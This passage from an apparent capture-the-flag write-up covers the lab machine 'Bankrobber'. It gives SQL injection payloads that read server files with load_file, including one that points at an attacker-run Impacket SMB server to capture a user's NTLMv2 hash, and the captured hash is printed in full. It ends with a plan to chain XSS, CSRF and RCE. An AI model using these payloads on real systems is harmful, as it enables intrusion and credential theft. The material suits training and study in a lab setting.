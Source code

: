 
So, I used the sql injection again to retrieve some files from the victim machine.
``` mysql

1' union select 1,load_file(""),3-- - (LFI)

```

this works, I tried to load a file using SMB
``` mysql
#On my machine
smbserver Shared_Test $(pwd) -smb2support

#On the web app
1' union select 1,load_file("\\\\10.10.14.3\\Shared_Test\\test"),3-- - (Get NTML2 hash)

❯ sudo smbserver.py Shared_Test $(pwd) -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Incoming connection (10.10.10.154,49861)
[*] AUTHENTICATE_MESSAGE (BANKROBBER\Cortin,BANKROBBER)
[*] User BANKROBBER\Cortin authenticated successfully
[*] Cortin::BANKROBBER:aaaaaaaaaaaaaaaa:b72e1fb24874179c2a39badee8d363a7:01010000000000000066fdddeee9d901d18f69efd3941d9200000000010010007a004c0078006f004a00700066005000030010007a004c0078006f004a00700066005000020010006300430041004d004600740058007400040010006300430041004d004600740058007400070008000066fdddeee9d9010600040002000000080030003000000000000000000000000020000095c2bd809e583040ce9023a771889b033d20c797d13c67be8751de99e4679c1e0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003200000000000000000000000000


```

Amazing, with this injection I obtained the NTML2 hash for the User "cortin".  Now I need to crack it

``` bash
john --wordlist=rockyou.txt hash
```

Jonh doesn't crack the hash, but at least I have a Username.

Returning to the web application, I found another function (backdoor checker) which allows injecting only the "dir" command but is only accessible from thje localhost server.
This function makes a request to the "backdoorchecker.php" file, so, tried to load this file using the sql injection vulnerabily  I discovered early, I used Buprsuite to review correctly the file.
``` mysql

1' union select 1,load_file("C:\\xampp\\htdocs\\admin\\backdoorchecker.php"),3-- -

```
By analyzing this file, I can check  the commands that are banned in the function and hows the application validates if the request is from the localhost server or not.
I can try the XSS vulnerability that I used before to try to access it from the local host server.
It's assumed there is an Admin checking the requests on the server, so I can attempt to make the admin execute the commands in the backdoor checker application because they have server-side access(localhost)
The idea is to exploit the XSS and then perform an CSRF attack, followd by attempting RCE to abuse the backdoor checker application
